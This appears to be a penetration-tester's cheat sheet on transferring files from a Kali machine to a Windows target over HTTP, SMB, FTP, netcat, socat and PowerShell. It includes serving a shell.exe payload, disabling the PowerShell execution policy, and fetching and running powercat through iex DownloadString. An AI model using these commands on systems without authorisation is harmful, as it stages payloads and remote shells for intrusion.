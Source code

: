 # File Transfer

## HTTP Server

Server

``` bash
sudo python3 -m http.server 80
```

wget

``` bash
wget <uri> -O /path/to/file.ext

wget <uri> -P /path/to/
```

## SMB Protocol

Install

``` bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo pip install -r requirements.txt
sudo python3 setup.py install
```

SMB Server

``` bash
$ locate whoami.exe
/usr/share/windows-resources/binaries/whoami.exe

$ smbserver.py a /usr/share/windows-binaries/
```

SMB Server

``` bash
$ \\<ip_server>\a\whoami.exe
```

## FTP Server

Install

``` bash
sudo apt-get install vsftpd
sudo service vsftpd start
```

Anonymous access

``` bash
sudo nano /etc/vsftpd.conf

=> anonymous_enable=YES
```

## Netcat

Kali machine

``` bash
nc -nvlp 4444 < /usr/share/windows-resources/binaries/wget.exe
```

Windows machine

``` bash
nc -nv 192.168.11.130 4444 > wget.exe
```

## Socat

Kali machine

``` bash
sudo socat TCP4-LISTEN:443,fork file:shell.exe
```

Windows machine

``` bash
socat TCP4:192.168.11.130:443 file:shell.exe,create
```

## PowerShell

Kali machine

``` bash
sudo python3 -m http.server 80
```

Windows machine

``` bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.11.130/wget.exe','C:\Users\Public\Desktop\wget.exe')"
```

## Powercat

``` powershell
Set-ExecutionPolicy Unrestricted

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

. .\powercat.ps1
```

Kali machine

``` bash
sudo nc -lnvp 443 > powercat.ps1
```

Windows machine

``` bash
powercat -c 192.168.11.130 -p 443 -i C:\Users\Public\powercat.ps1
```
